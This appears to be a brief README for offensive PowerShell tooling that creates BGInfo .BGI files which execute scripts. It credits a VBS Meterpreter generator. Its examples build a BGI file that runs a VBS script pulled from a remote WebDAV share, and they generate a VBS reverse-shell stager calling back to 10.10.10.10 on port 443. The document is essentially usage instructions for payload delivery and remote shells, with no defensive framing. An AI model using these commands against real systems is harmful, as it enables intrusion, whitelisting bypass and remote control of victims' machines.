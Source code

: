 # BGInfo
2 Functions used to create a .BGI file executing script.
Thanks to Cn33liz - @Cneelis for VBSWebMeter.

How to use the functions:

# Example 1
New-BGIFile -FileName "StartCMD.bgi" -Script "StartCMD.vbs" -OutFilePath "C:\BGIPayload"

# Example 2
New-BGIFile -FileName "MyPayload.bgi" -Script "\\10.10.10.10\webdav\VBSMeterShell.vbs" -OutFilePath "C:\BGIPayload"

# Example 3
New-VBSWebMeter -RHOST "10.10.10.10" -RPORT "443" -HTTPS "Yes" -OutFilePath "C:\BGIPayload" -OutFile "VBSMeterShell.vbs"


